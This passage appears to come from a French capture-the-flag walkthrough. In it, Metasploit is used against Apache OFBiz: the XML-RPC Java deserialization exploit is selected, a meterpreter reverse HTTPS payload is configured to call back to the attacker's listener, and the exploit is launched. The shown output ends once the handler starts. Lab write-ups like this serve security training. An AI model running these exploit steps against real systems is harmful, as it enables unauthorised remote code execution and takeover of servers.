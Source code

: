 ```
Matching Modules
================

   #  Name                                                  Disclosure Date  Rank       Check  Description
   -  ----                                                  ---------------  ----       -----  -----------
   0  exploit/linux/http/apache_ofbiz_deserialization_soap  2021-03-22       excellent  Yes    Apache OFBiz SOAP Java Deserialization
   1  exploit/linux/http/apache_ofbiz_deserialization       2020-07-13       excellent  Yes    Apache OFBiz XML-RPC Java Deserialization
   2  auxiliary/scanner/http/log4shell_scanner              2021-12-09       normal     No     Log4Shell HTTP Scanner
```
Utilisons ``Apache OFBiz XML-RPC Java Deserialization``:
```
msf6 > use 1
[*] Using configured payload linux/x64/meterpreter_reverse_https
```
Après configuration j'ai:
```
msf6 exploit(linux/http/apache_ofbiz_deserialization) > show options

Module options (exploit/linux/http/apache_ofbiz_deserialization):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1        yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      8443             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addres
                                         ses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter_reverse_https):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.5       yes       The local listener hostname
   LPORT  4444             yes       The local listener port
   LURI                    no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper
```
Plus qu'à l'executer:
```
msf6 exploit(linux/http/apache_ofbiz_deserialization) > run
[*] Started HTTPS reverse handler on https://10.10.14.5:4444
[*] Running automatic check ("set AutoCheck false" to disable)
```